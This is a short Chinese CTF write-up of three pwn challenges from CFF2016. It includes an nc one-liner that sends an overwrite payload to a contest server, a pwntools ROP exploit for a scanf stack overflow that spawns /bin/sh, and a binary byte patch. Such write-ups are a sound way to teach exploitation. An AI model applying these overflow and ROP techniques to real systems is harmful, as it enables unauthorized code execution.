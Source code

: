 ```yaml
---
title: 【CFF2016-pwn】 Writeup
date: 2016-06-20 10:55:02
tags:
 - Writeup
 - pwn
---
```



### pwn1

简单的变量覆盖。

```
python -c 'print "a"*0x40+"\x1b\x86\x04\x08"'|nc 139.196.232.222 54000
一发带走
```
{% asset_img  1.png %}

### pwn2

scanf没有限制输入字节，可发送超长字符串导致栈溢出。

只开了NX，但是用程序自带的后门是无法读取flag的，自己发送个`"/bin/sh\0"`然后构造rop，拿shell

```python
from pwn import *

context(log_level="debug")
elf = ELF('memory')
system_plt = elf.symbols['system']
scanf_plt = elf.symbols['__isoc99_scanf']
pp_ret = 0x804877e
_s = 0x8048817
data =  0x0804A038

p = process('./memory')
payload1 = 'a'*(0x13+4)+p32(scanf_plt)+p32(pp_ret)+p32(_s)+p32(data)+p32(system_plt)+p32(0)+p32(data)
p.sendline(payload1)
p.sendline('/bin/sh\0')
p.interactive()
```
接下来
```
find /|grep flag
/bin/cat xxx #忘记位置了
```

### pwn3

{% asset_img  3.png %}

把文件里面这个位置的数据改成0x88，进入这个函数里面，会给一个web服务器的地址，把改变后的文件上传就拿flag。

PS：pwn3，500题，这么简单？